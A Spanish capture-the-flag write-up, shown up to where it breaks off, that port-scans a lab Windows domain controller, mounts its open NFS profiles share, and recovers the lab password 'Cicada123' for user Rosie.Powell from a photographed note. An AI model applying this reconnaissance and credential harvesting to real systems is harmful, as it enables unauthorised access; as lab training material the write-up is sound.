# Scan
Empezamos realizando un escaneo de puertos con ``rustscan -a 10.129.234.48 --ulimit 5000 -r 1-65535 -- -sVC -oN scan -Pn``
```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-03-02 10:31:55Z)
111/tcp   open  rpcbind       syn-ack ttl 127 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|_  100005  1,2,3       2049/udp6  mountd
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Issuer: commonName=cicada-DC-JPQ225-CA/domainComponent=cicada
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-02T10:22:26
| Not valid after:  2027-03-02T10:22:26
| MD5:     c6d5 7863 40a4 8d3e 09e9 73cf 805b acf4
| SHA-1:   ca10 bc7f 9e97 0f62 5916 909c 0b47 ef02 9258 eedd
| SHA-256: b169 c815 b4a7 aa4b 44f0 d3c4 4b62 38ac 0010 64d0 2863 0d86 dba0 c638 e36f 67a0
| -----BEGIN CERTIFICATE-----
| MIIGQjCCBSqgAwIBAgITdAAAAFdYiMCxIB2NSAAcAAAAVzANBgkqhkiG9w0BAQsF
| ADBKMRIwEAYKCZImiZPyLGQBGRYCdmwxFjAUBgoJkiaJk/IsZAEZFgZjaWNhZGEx
| HDAaBgNVBAMTE2NpY2FkYS1EQy1KUFEyMjUtQ0EwHhcNMjYwMzAyMTAyMjI2WhcN
| MjcwMzAyMTAyMjI2WjAeMRwwGgYDVQQDExNEQy1KUFEyMjUuY2ljYWRhLnZsMIIB
| IjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAtq80h2W3qhZBSBJ1255uekel
| m331fI3FYFl4mPY7o7f34M0nVeRUQ/PNzvG1kow/90fO827MPQpCAKgDQdKHkksy
| SpA3M1PtuDTd9ANgA7efbpktMJ71dbLYkbRy3MSgEGw85JysevNSaGmO9i66lhRO
| Zmyrmsvao2+tMh0Sig52HK9gFD/dOWd3yAWPQFyruaHyYLFwoRehZhRtoUZgPc9O
| T0mEBIwuz9WFTyoEMbloVI7ESg7y9hg0uvv1GNegq81OrB6j1stCZYVmJsc++oDw
| jcy2yyUS62COHnoPgicHxaYglQeOPucs+2NCmvLjf8dx0/8jY91Lu5W3ncSk4QID
| AQABo4IDSzCCA0cwLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0
| AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNV
| HQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYI
| KoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUD
| BAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQU
| KKGTt1tP2j75KOiE/bWs++C1zTQwHwYDVR0jBBgwFoAUHQX5ReJ0O0+NEx1hHdkt
| 8Fn260EwgdUGA1UdHwSBzTCByjCBx6CBxKCBwYaBvmxkYXA6Ly8vQ049Y2ljYWRh
| LURDLUpQUTIyNS1DQSgyOCksQ049REMtSlBRMjI1LENOPUNEUCxDTj1QdWJsaWMl
| MjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERD
| PWNpY2FkYSxEQz12bD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2Jq
| ZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcMGCCsGAQUFBwEBBIG2MIGz
| MIGwBggrBgEFBQcwAoaBo2xkYXA6Ly8vQ049Y2ljYWRhLURDLUpQUTIyNS1DQSxD
| Tj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049
| Q29uZmlndXJhdGlvbixEQz1jaWNhZGEsREM9dmw/Y0FDZXJ0aWZpY2F0ZT9iYXNl
| P29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwPwYDVR0RBDgwNqAf
| BgkrBgEEAYI3GQGgEgQQSXU6VGr3S0+AfOIpDFNDBYITREMtSlBRMjI1LmNpY2Fk
| YS52bDBMBgkrBgEEAYI3GQIEPzA9oDsGCisGAQQBgjcZAgGgLQQrUy0xLTUtMjEt
| Njg3NzAzMzkzLTE0NDc3OTU4ODItNjYwOTgyNDctMTAwMDANBgkqhkiG9w0BAQsF
| AAOCAQEAGCwMclT27cSs3QAkNOZLD5rf/y26B18G1QJZTfaLDTiZohBFnChX37gc
| 4bgwmjJo8vOqZKqCrW4SmhTRTKsl32JA38UaPL2Av5axO/M0du6W42U5+yJr5O/S
| Q2azZ0qhUaxC97/WStCM0ByEOzvbhasTdW970fsCdGAtJ65sz9YdPG7vL0FFiD9S
| DeQH4+999dV2V4Kxh5DAhaY5m/P5TQER18PTwJqEkOUZ0DURo6ARJrFLNqNvVfMe
| g0JsqnaSlEBL7ZxkiijmKUQybpqo70oRdbO/Nubs4XA7EqWkvv7+3CvUFfw6L7tC
| X59KL5sfAXf5t7Z4oLKaXsKPBUQqjg==
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Issuer: commonName=cicada-DC-JPQ225-CA/domainComponent=cicada
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-02T10:22:26
| Not valid after:  2027-03-02T10:22:26
| MD5:     c6d5 7863 40a4 8d3e 09e9 73cf 805b acf4
| SHA-1:   ca10 bc7f 9e97 0f62 5916 909c 0b47 ef02 9258 eedd
| SHA-256: b169 c815 b4a7 aa4b 44f0 d3c4 4b62 38ac 0010 64d0 2863 0d86 dba0 c638 e36f 67a0
| -----BEGIN CERTIFICATE-----
| MIIGQjCCBSqgAwIBAgITdAAAAFdYiMCxIB2NSAAcAAAAVzANBgkqhkiG9w0BAQsF
| ADBKMRIwEAYKCZImiZPyLGQBGRYCdmwxFjAUBgoJkiaJk/IsZAEZFgZjaWNhZGEx
| HDAaBgNVBAMTE2NpY2FkYS1EQy1KUFEyMjUtQ0EwHhcNMjYwMzAyMTAyMjI2WhcN
| MjcwMzAyMTAyMjI2WjAeMRwwGgYDVQQDExNEQy1KUFEyMjUuY2ljYWRhLnZsMIIB
| IjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAtq80h2W3qhZBSBJ1255uekel
| m331fI3FYFl4mPY7o7f34M0nVeRUQ/PNzvG1kow/90fO827MPQpCAKgDQdKHkksy
| SpA3M1PtuDTd9ANgA7efbpktMJ71dbLYkbRy3MSgEGw85JysevNSaGmO9i66lhRO
| Zmyrmsvao2+tMh0Sig52HK9gFD/dOWd3yAWPQFyruaHyYLFwoRehZhRtoUZgPc9O
| T0mEBIwuz9WFTyoEMbloVI7ESg7y9hg0uvv1GNegq81OrB6j1stCZYVmJsc++oDw
| jcy2yyUS62COHnoPgicHxaYglQeOPucs+2NCmvLjf8dx0/8jY91Lu5W3ncSk4QID
| AQABo4IDSzCCA0cwLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0
| AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNV
| HQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYI
| KoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUD
| BAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQU
| KKGTt1tP2j75KOiE/bWs++C1zTQwHwYDVR0jBBgwFoAUHQX5ReJ0O0+NEx1hHdkt
| 8Fn260EwgdUGA1UdHwSBzTCByjCBx6CBxKCBwYaBvmxkYXA6Ly8vQ049Y2ljYWRh
| LURDLUpQUTIyNS1DQSgyOCksQ049REMtSlBRMjI1LENOPUNEUCxDTj1QdWJsaWMl
| MjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERD
| PWNpY2FkYSxEQz12bD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2Jq
| ZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcMGCCsGAQUFBwEBBIG2MIGz
| MIGwBggrBgEFBQcwAoaBo2xkYXA6Ly8vQ049Y2ljYWRhLURDLUpQUTIyNS1DQSxD
| Tj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049
| Q29uZmlndXJhdGlvbixEQz1jaWNhZGEsREM9dmw/Y0FDZXJ0aWZpY2F0ZT9iYXNl
| P29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwPwYDVR0RBDgwNqAf
| BgkrBgEEAYI3GQGgEgQQSXU6VGr3S0+AfOIpDFNDBYITREMtSlBRMjI1LmNpY2Fk
| YS52bDBMBgkrBgEEAYI3GQIEPzA9oDsGCisGAQQBgjcZAgGgLQQrUy0xLTUtMjEt
| Njg3NzAzMzkzLTE0NDc3OTU4ODItNjYwOTgyNDctMTAwMDANBgkqhkiG9w0BAQsF
| AAOCAQEAGCwMclT27cSs3QAkNOZLD5rf/y26B18G1QJZTfaLDTiZohBFnChX37gc
| 4bgwmjJo8vOqZKqCrW4SmhTRTKsl32JA38UaPL2Av5axO/M0du6W42U5+yJr5O/S
| Q2azZ0qhUaxC97/WStCM0ByEOzvbhasTdW970fsCdGAtJ65sz9YdPG7vL0FFiD9S
| DeQH4+999dV2V4Kxh5DAhaY5m/P5TQER18PTwJqEkOUZ0DURo6ARJrFLNqNvVfMe
| g0JsqnaSlEBL7ZxkiijmKUQybpqo70oRdbO/Nubs4XA7EqWkvv7+3CvUFfw6L7tC
| X59KL5sfAXf5t7Z4oLKaXsKPBUQqjg==
|_-----END CERTIFICATE-----
2049/tcp  open  mountd        syn-ack ttl 127 1-3 (RPC #100005)
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Issuer: commonName=cicada-DC-JPQ225-CA/domainComponent=cicada
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-02T10:22:26
| Not valid after:  2027-03-02T10:22:26
| MD5:     c6d5 7863 40a4 8d3e 09e9 73cf 805b acf4
| SHA-1:   ca10 bc7f 9e97 0f62 5916 909c 0b47 ef02 9258 eedd
| SHA-256: b169 c815 b4a7 aa4b 44f0 d3c4 4b62 38ac 0010 64d0 2863 0d86 dba0 c638 e36f 67a0
| -----BEGIN CERTIFICATE-----
| MIIGQjCCBSqgAwIBAgITdAAAAFdYiMCxIB2NSAAcAAAAVzANBgkqhkiG9w0BAQsF
| ADBKMRIwEAYKCZImiZPyLGQBGRYCdmwxFjAUBgoJkiaJk/IsZAEZFgZjaWNhZGEx
| HDAaBgNVBAMTE2NpY2FkYS1EQy1KUFEyMjUtQ0EwHhcNMjYwMzAyMTAyMjI2WhcN
| MjcwMzAyMTAyMjI2WjAeMRwwGgYDVQQDExNEQy1KUFEyMjUuY2ljYWRhLnZsMIIB
| IjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAtq80h2W3qhZBSBJ1255uekel
| m331fI3FYFl4mPY7o7f34M0nVeRUQ/PNzvG1kow/90fO827MPQpCAKgDQdKHkksy
| SpA3M1PtuDTd9ANgA7efbpktMJ71dbLYkbRy3MSgEGw85JysevNSaGmO9i66lhRO
| Zmyrmsvao2+tMh0Sig52HK9gFD/dOWd3yAWPQFyruaHyYLFwoRehZhRtoUZgPc9O
| T0mEBIwuz9WFTyoEMbloVI7ESg7y9hg0uvv1GNegq81OrB6j1stCZYVmJsc++oDw
| jcy2yyUS62COHnoPgicHxaYglQeOPucs+2NCmvLjf8dx0/8jY91Lu5W3ncSk4QID
| AQABo4IDSzCCA0cwLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0
| AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNV
| HQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYI
| KoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUD
| BAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQU
| KKGTt1tP2j75KOiE/bWs++C1zTQwHwYDVR0jBBgwFoAUHQX5ReJ0O0+NEx1hHdkt
| 8Fn260EwgdUGA1UdHwSBzTCByjCBx6CBxKCBwYaBvmxkYXA6Ly8vQ049Y2ljYWRh
| LURDLUpQUTIyNS1DQSgyOCksQ049REMtSlBRMjI1LENOPUNEUCxDTj1QdWJsaWMl
| MjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERD
| PWNpY2FkYSxEQz12bD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2Jq
| ZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcMGCCsGAQUFBwEBBIG2MIGz
| MIGwBggrBgEFBQcwAoaBo2xkYXA6Ly8vQ049Y2ljYWRhLURDLUpQUTIyNS1DQSxD
| Tj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049
| Q29uZmlndXJhdGlvbixEQz1jaWNhZGEsREM9dmw/Y0FDZXJ0aWZpY2F0ZT9iYXNl
| P29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwPwYDVR0RBDgwNqAf
| BgkrBgEEAYI3GQGgEgQQSXU6VGr3S0+AfOIpDFNDBYITREMtSlBRMjI1LmNpY2Fk
| YS52bDBMBgkrBgEEAYI3GQIEPzA9oDsGCisGAQQBgjcZAgGgLQQrUy0xLTUtMjEt
| Njg3NzAzMzkzLTE0NDc3OTU4ODItNjYwOTgyNDctMTAwMDANBgkqhkiG9w0BAQsF
| AAOCAQEAGCwMclT27cSs3QAkNOZLD5rf/y26B18G1QJZTfaLDTiZohBFnChX37gc
| 4bgwmjJo8vOqZKqCrW4SmhTRTKsl32JA38UaPL2Av5axO/M0du6W42U5+yJr5O/S
| Q2azZ0qhUaxC97/WStCM0ByEOzvbhasTdW970fsCdGAtJ65sz9YdPG7vL0FFiD9S
| DeQH4+999dV2V4Kxh5DAhaY5m/P5TQER18PTwJqEkOUZ0DURo6ARJrFLNqNvVfMe
| g0JsqnaSlEBL7ZxkiijmKUQybpqo70oRdbO/Nubs4XA7EqWkvv7+3CvUFfw6L7tC
| X59KL5sfAXf5t7Z4oLKaXsKPBUQqjg==
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Issuer: commonName=cicada-DC-JPQ225-CA/domainComponent=cicada
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-02T10:22:26
| Not valid after:  2027-03-02T10:22:26
| MD5:     c6d5 7863 40a4 8d3e 09e9 73cf 805b acf4
| SHA-1:   ca10 bc7f 9e97 0f62 5916 909c 0b47 ef02 9258 eedd
| SHA-256: b169 c815 b4a7 aa4b 44f0 d3c4 4b62 38ac 0010 64d0 2863 0d86 dba0 c638 e36f 67a0
| -----BEGIN CERTIFICATE-----
| MIIGQjCCBSqgAwIBAgITdAAAAFdYiMCxIB2NSAAcAAAAVzANBgkqhkiG9w0BAQsF
| ADBKMRIwEAYKCZImiZPyLGQBGRYCdmwxFjAUBgoJkiaJk/IsZAEZFgZjaWNhZGEx
| HDAaBgNVBAMTE2NpY2FkYS1EQy1KUFEyMjUtQ0EwHhcNMjYwMzAyMTAyMjI2WhcN
| MjcwMzAyMTAyMjI2WjAeMRwwGgYDVQQDExNEQy1KUFEyMjUuY2ljYWRhLnZsMIIB
| IjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAtq80h2W3qhZBSBJ1255uekel
| m331fI3FYFl4mPY7o7f34M0nVeRUQ/PNzvG1kow/90fO827MPQpCAKgDQdKHkksy
| SpA3M1PtuDTd9ANgA7efbpktMJ71dbLYkbRy3MSgEGw85JysevNSaGmO9i66lhRO
| Zmyrmsvao2+tMh0Sig52HK9gFD/dOWd3yAWPQFyruaHyYLFwoRehZhRtoUZgPc9O
| T0mEBIwuz9WFTyoEMbloVI7ESg7y9hg0uvv1GNegq81OrB6j1stCZYVmJsc++oDw
| jcy2yyUS62COHnoPgicHxaYglQeOPucs+2NCmvLjf8dx0/8jY91Lu5W3ncSk4QID
| AQABo4IDSzCCA0cwLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0
| AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNV
| HQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYI
| KoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUD
| BAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQU
| KKGTt1tP2j75KOiE/bWs++C1zTQwHwYDVR0jBBgwFoAUHQX5ReJ0O0+NEx1hHdkt
| 8Fn260EwgdUGA1UdHwSBzTCByjCBx6CBxKCBwYaBvmxkYXA6Ly8vQ049Y2ljYWRh
| LURDLUpQUTIyNS1DQSgyOCksQ049REMtSlBRMjI1LENOPUNEUCxDTj1QdWJsaWMl
| MjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERD
| PWNpY2FkYSxEQz12bD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2Jq
| ZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcMGCCsGAQUFBwEBBIG2MIGz
| MIGwBggrBgEFBQcwAoaBo2xkYXA6Ly8vQ049Y2ljYWRhLURDLUpQUTIyNS1DQSxD
| Tj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049
| Q29uZmlndXJhdGlvbixEQz1jaWNhZGEsREM9dmw/Y0FDZXJ0aWZpY2F0ZT9iYXNl
| P29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwPwYDVR0RBDgwNqAf
| BgkrBgEEAYI3GQGgEgQQSXU6VGr3S0+AfOIpDFNDBYITREMtSlBRMjI1LmNpY2Fk
| YS52bDBMBgkrBgEEAYI3GQIEPzA9oDsGCisGAQQBgjcZAgGgLQQrUy0xLTUtMjEt
| Njg3NzAzMzkzLTE0NDc3OTU4ODItNjYwOTgyNDctMTAwMDANBgkqhkiG9w0BAQsF
| AAOCAQEAGCwMclT27cSs3QAkNOZLD5rf/y26B18G1QJZTfaLDTiZohBFnChX37gc
| 4bgwmjJo8vOqZKqCrW4SmhTRTKsl32JA38UaPL2Av5axO/M0du6W42U5+yJr5O/S
| Q2azZ0qhUaxC97/WStCM0ByEOzvbhasTdW970fsCdGAtJ65sz9YdPG7vL0FFiD9S
| DeQH4+999dV2V4Kxh5DAhaY5m/P5TQER18PTwJqEkOUZ0DURo6ARJrFLNqNvVfMe
| g0JsqnaSlEBL7ZxkiijmKUQybpqo70oRdbO/Nubs4XA7EqWkvv7+3CvUFfw6L7tC
| X59KL5sfAXf5t7Z4oLKaXsKPBUQqjg==
|_-----END CERTIFICATE-----
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Issuer: commonName=DC-JPQ225.cicada.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-01T10:30:03
| Not valid after:  2026-08-31T10:30:03
| MD5:     04c9 bf9a 3ccd 6dac 84fe a995 ae83 846c
| SHA-1:   765e 6dc7 8808 fe7f 94bd 3427 171f 838d 0084 43d2
| SHA-256: 52cb 25ef d251 695d c8d0 3767 90c2 dc2a 6384 6204 463a 567c 51db 297a 9446 dd59
| -----BEGIN CERTIFICATE-----
| MIIC6jCCAdKgAwIBAgIQXRaKcaMMQIpEzj2cpJEqKDANBgkqhkiG9w0BAQsFADAe
| MRwwGgYDVQQDExNEQy1KUFEyMjUuY2ljYWRhLnZsMB4XDTI2MDMwMTEwMzAwM1oX
| DTI2MDgzMTEwMzAwM1owHjEcMBoGA1UEAxMTREMtSlBRMjI1LmNpY2FkYS52bDCC
| ASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBALH9nU60jpG6F5mE18ODV/Eo
| TXZHrPdVSDCJOVihJLigkOa9MVyK5n0XF3Uw7epeai2WlguBVfCBWwc3NuI6uMbC
| MrnTjZDfPAlWI7HvNSWD0i1w0d9mqeHB/xKRfN0PLDP5h1I/0FgPIhwo6DnCG7dD
| IA1EHwN9ZvSW6DkQDyihHX33aWogxJLX4CFDuoT1KBRjOezYpdreO5DVylopTv5e
| D8eNKAjb3nDPh56uNHNyNdFxLc9EGSChgYvV9AaskAgX/h6vhqJrNfwSKlf02jfO
| Zqp7uxmFzEK09L0xCC+sp/2i3RWQ+qJKIWS1dZTKmRnrhiYVflmeus01yxiuOBEC
| AwEAAaMkMCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqG
| SIb3DQEBCwUAA4IBAQCoxD+4tDigQ5IbXqNYztBuQWcdvxvIv9ikohAIlSRtChxh
| hJxpVg1EDF/ldu3twTREzXFoFtvVx7zfkjksK7aFMq9Zw/mZz7fwhgS+kPTT9E+O
| rBw7N2mgVkCivH04y5qbzatysTmjiJWTKCgcY2FWGdvesrCXC9YeO/rrc5REk9iz
| RYC9BbqCI7owapaz+9AwIpBaVO8rshlfMs5xDdqA/Vocccm9QaOL9OJayhf4Vf5b
| 9kXPEtlCJ6dClJnE7IqhxXQ93Y+zNpSpbd5RXAM+F/GqM3OHZcVkjRFXGng4NwVd
| 09XP8FAKcnrSDzez8pS4ftbx5qH1X82PS9w1ZRh0
|_-----END CERTIFICATE-----
|_ssl-date: 2026-03-02T10:33:30+00:00; 0s from scanner time.
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
61800/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
61802/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
61819/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
61880/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
62343/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC-JPQ225; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 18435/tcp): CLEAN (Timeout)
|   Check 2 (port 39411/tcp): CLEAN (Timeout)
|   Check 3 (port 21688/udp): CLEAN (Timeout)
|   Check 4 (port 17096/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-time: 
|   date: 2026-03-02T10:32:55
|_  start_date: N/A
```
Empezamos añadiendo ``DC-JPQ225.cicada.vl`` y ``cicada.vl`` a  ``/etc/hosts``
Como vemos el puerto 2049 es decir el de NFS vamos a intentar enumerarlo y montarlo para ver su contenido:
```bash
❯ showmount -e 10.129.234.48
Export list for 10.129.234.48:
/profiles (everyone)
❯ sudo mount -t nfs 10.129.234.48:/profiles /mnt -o nolock
```
Ahora para poder leer todo hacemos sudo su y copiamos la carpeta mnt a una nuestra y le cambiamos los permisos:
```bash
sudo su
cp -r /mnt /home/alvaro/Desktop/htb/medium/vulncicada/content
chmod -R 755 /home/alvaro/Desktop/htb/medium/vulncicada/content/mnt
```
Ahora revisando el contenido:

En la carpeta de Rosie.Powell encontramos esta imagen:

En el papel a su lado parece haber una contraseña así que ahora vamos a intentar validar las credenciales ``Rosie.Powell:Cicada123``para ver si son correctas:
